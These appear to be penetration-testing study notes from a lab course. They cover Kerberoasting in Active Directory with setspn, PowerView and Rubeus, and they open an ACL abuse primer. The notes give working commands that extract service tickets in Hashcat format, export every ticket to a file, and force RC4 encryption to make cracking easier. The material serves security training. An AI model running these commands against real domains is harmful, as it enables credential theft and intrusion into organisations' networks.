🤖 \*\*Automated / Tool Based Route\*\*

* `setspn.exe -Q */*` → list available spns

## **Using PowerView**

* `PS C:\htb> Import-Module .\PowerView.ps1` → importing powerview
* `PS C:\htb> Get-DomainUser * -spn | select samaccountname` → getting spn account
* `PS C:\htb> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat` → Targeting Specific User
* `PS C:\htb> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation` → Exporting All tickets to csv file

## **Using Rubeus**

Rubeus doesnot need us to explicitly set the SPN or the user.

* `PS C:\htb> .\Rubeus.exe kerberoast /stats` → get the stats
*   `PS C:\htb> .\Rubeus.exe kerberoast`

    we can add flag `/nowrap` so that hash will not be wrapped in any form so it will be easier to crack using hashcat.

    also we can use `/outfile:filename` to save the ticket, instead of displaying it.
* `PS C:\htb> .\Rubeus.exe kerberoast /user:testspn /nowrap` → for specific user.

we can use `/tgtdeleg` flag to specify that we want only RC4 encryption when requesting a new service ticket.

RC4 is easier to crack compared to AES 256 and128

## An ACE in the Hole

Access Control List (ACL) Abuse Primer

ACL are list that defines

* Who has access to which asset/resources
* the level of access they are provisioned.

The settings themselves in an ACL are called `Access Control Entries` (`ACEs`)

![Untitled](<.gitbook/assets/ACTIVE DIRECTORY Enum & Attacks 4af4b148af5740d1a6a92a3c741df505/Untitled 3.png>)
